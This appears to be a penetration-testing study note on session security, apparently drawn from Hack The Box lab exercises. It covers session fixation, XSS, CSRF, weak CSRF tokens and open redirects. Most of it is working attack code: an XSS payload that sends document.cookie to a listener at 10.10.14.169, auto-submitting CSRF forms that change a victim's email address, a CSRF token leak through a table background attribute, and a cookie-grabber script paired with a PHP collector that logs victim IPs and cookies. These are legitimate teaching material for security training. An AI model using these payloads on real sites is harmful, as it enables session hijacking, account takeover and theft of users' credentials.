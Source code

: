 # Session Security

A user session is a series of requests and responses between a user and a server within a set time.

### <mark style="color:yellow;">Session Hijacking</mark>

Attacker can find a way to obtain session identifiers or cookie and impersonate as the victim, through:

* Passive Traffic Sniffing
* Cross-Site Scripting (XSS)
* Browser history or log-diving
* Read access to a database containing session information

### <mark style="color:yellow;">Session Fixation</mark>

Occurs when attacker fixates a valid session identifier.

{% stepper %}
{% step %}
#### Obtain valid session identifier

Either make own account or just visit website for identifier.
{% endstep %}

{% step %}
#### Fixate a valid session identifier

If session ID stays the same before and after login, that session ID can be used.
{% endstep %}

{% step %}
#### Tricking a victim

Send victim a special link with fixed session ID, once victim logins the session can be hijacked.
{% endstep %}
{% endstepper %}

If you input value in token here and the cookie value is the same there is a session fixation.

```
http://mczen.nl/?redirect_uri=/complete.html&token=0efsfmjup7i1vc2f41fia7k7nl
```

### <mark style="color:yellow;">Cross-Site Scripting (XSS)</mark>

In case of XSS vulnerability steal cookie and catch with netcat.

```javascript
<script>fetch(`http://10.10.14.169:8443?cookie=${btoa(document.cookie)}`)</script>
```

### <mark style="color:yellow;">Cross-Site Request Forgery (CSRF or XSRF)</mark>

Cross-Site requests forces a user for example to interact with web pages crafted by an attacker. Same-Origin Policy prevents from seeing responses but CSRF only needs requests to be send, watch for anti-CSRF tokens.

To change values from a user we can create a HTML page like this and host it. Due to CSRF when visiting this html page if will change the data of that user.

```html
<html>
  <body>
    <form id="submitMe" action="http://xss.htb.net/api/update-profile" method="POST">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

In case of anti-CSRF get the token from the GET request and include it in the html page like:

```html
<html>
  <body>
    <form id="submitMe" action="http://csrf.htb.net/app/save/julie.rogers@example.com" method="GET">
      <input type="hidden" name="email" value="attacker@htb.net" />
      <input type="hidden" name="telephone" value="&#40;227&#41;&#45;750&#45;8112" />
      <input type="hidden" name="country" value="CSRF_POC" />
      <input type="hidden" name="action" value="save" />
      <input type="hidden" name="csrf" value="30e7912d04c957022a6d3072be8ef67e52eda8f2" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.getElementById("submitMe").submit()
    </script>
  </body>
</html>
```

If you have control or input over a value and this works:

```html
<h1>h1<u>underline<%2fu><%2fh1>
```

Then leak the CSRF token:

```html
http://csrf.htb.net/app/delete/%3Ctable background='%2f%2f<VPN/TUN Adapter IP>:8000%2f
```

### <mark style="color:yellow;">Exploiting Weak CSRF Tokens</mark>

Check how tokens are generated for example using usernames then MD5 hashing them. It can be as easy as `md5(username)`, `sha1(username)`, `md5(current date + username` .

You can also try NULL values or empty. Or just a random token but same length. Sometimes its possible to use same CSRF tokens across accounts.

We can also use verb tampering from POST to GET.

### <mark style="color:yellow;">Open Redirect</mark>

A security flaw to redirect visitors to attacker controlled website. Like here where redirect\_uri where we can input any URL we want.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

Then change it to `oredirect.htb.net/?redirect_uri=http://10.10.14.169:8443&token=1nmq2kojj8uba8uo62rq42ro6s` when the user uses the form we data on nc.

## Getting multiple cookies

In script.js file save the cookie grabber

```js
new Image().src='http://10.10.14.169:8888/index.php?c=' + document.cookie;
```

Write and host a php file to split cookies if multiple were received.

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

Start listening

```
php -S 0.0.0.0:8888
```

Use XSS to run the script.js

```javascript
<script src=http://10.10.14.169:8888/script.js></script>
```

In case you find a CSRF vuln you can use the page where XSS can be ran and send the URL to a target.
